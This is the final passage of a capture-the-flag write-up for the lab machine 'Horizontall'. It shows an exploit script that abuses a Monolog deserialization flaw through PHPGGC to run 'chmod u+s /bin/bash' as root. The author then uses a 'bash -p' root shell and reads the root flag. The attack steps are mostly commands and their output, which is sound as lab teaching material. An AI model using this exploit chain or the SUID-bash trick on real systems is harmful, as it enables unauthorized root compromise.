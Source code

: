 We have command execution as **root**, in order to get a shell we can change the permissions of the **bash** inside the victim machine so it's **SUID**:
```bash
❯ ./exploit.py http://localhost:8000 Monolog/RCE1 "chmod u+s /bin/bash"

[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
[+] Logs cleared
```
Now if everything goes right we will be able to execute the bash as **root** with the parameter **-p**.
```bash
strapi@horizontall:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
strapi@horizontall:/tmp$ bash -p

bash-4.4# whoami
root
```

And just like this we have successfully owned the victim machine:
```bash
bash-4.4# cat /root/root.txt
803f1bb9a4f911ce****************
```

See you next time!